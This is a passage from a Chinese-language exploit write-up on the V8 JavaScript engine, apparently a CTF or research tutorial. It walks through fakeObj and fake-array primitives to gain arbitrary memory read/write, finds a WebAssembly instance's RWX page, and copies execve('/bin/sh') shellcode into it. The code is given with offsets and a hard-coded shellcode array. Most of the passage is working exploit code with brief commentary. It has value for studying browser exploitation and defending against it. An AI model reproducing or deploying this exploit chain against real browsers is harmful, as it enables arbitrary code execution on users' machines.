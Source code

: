 ### fakeObject

```javascript
    function fakeObj(target_addr)
    {
        demo_array[0x000/8]=u2d(double_array_map_addr+1,0);
        console.log("[*] set addr: 0x"+hex(target_addr));
        //evil[0]=itof(target_addr+1n);
        demo_array[0x210/8]=itof(target_addr+1n);
        demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
        let vul=evil[0];
        demo_array[0x000/8]=u2d(double_array_map_addr+1,0);
        return vul;
    }
```

这个操作和上面的 addressOf 函数相似，但注意到笔者此处注释掉了一行代码，它道理上似乎与下一行操作等价，但经过笔者的测试，这个操作会有些许差错，导致写入的数值不符合预期，但由于缓冲区本身也是我们伪造的，所以可以直接通过写入 demo\_array\[0x210/8] 去改变 evil\[0] 的数值

### 伪造对象

虽说已经能够读取变量地址和伪造对象地址，但还没涉及到具体的应用，这部分内容本就应该根据上面的两个函数进行调整，并且，我们还没有完全实现任意地址读写

```javascript
    var fake_array = [
        u2d(double_array_map_addr+1, 0),
        itof(0x4141414141414141n)
    ];
    var fake_ob=addressOf(fake_array);
    fake_addr=fake_ob+0x20n+4n;
    var t=fakeObj(fake_addr);

    var wasmins=addressOf(wasmInstance);
    fake_array[1]=itof(wasmins+0x68n+1n-8n-8n);
    rwx_addr=ftoi(t[0]);
    console.log("[*] value: 0x"+hex(ftoi(t[0])));
```

首先创建这样一个浮点数数组，通过 addressOf 获取其地址以后，我们就能够通过计算获取到 \&fake\_array\[0] 的地址，那么我们就能够将这个数组的内容伪造成一个新的对象，这样我们就能随意设置新对象的 elements 地址，如果我们让 fake\_array\[0] 是浮点数数组的 map，那么就会让这个伪造对象为浮点数数组，实现任意地址读写

接下来只需要调整便宜，让 t\[0] 读取到 wasmInstance+0x68 处的新内存段地址即可

### copy shellcode

```javascript
    var shellcode = [
        0x2fbb485299583b6an,
        0x5368732f6e69622fn,
        0x050f5e5457525f54n
    ];
    function copy_shellcode(shellcode,addr)
    {
        var data_buf=new ArrayBuffer(shellcode.length*8);
        var data_view=new DataView(data_buf);
        var back_sotre_addr=addressOf(data_buf)+0x18n;
        fake_array[1]=itof(back_sotre_addr-3n);
        t[0]=itof(addr);
        for (let i=0;i<shellcode.length;++i)
		    data_view.setFloat64(i*8,itof(shellcode[i]),true);
    }
    copy_shellcode(shellcode,rwx_addr);
```
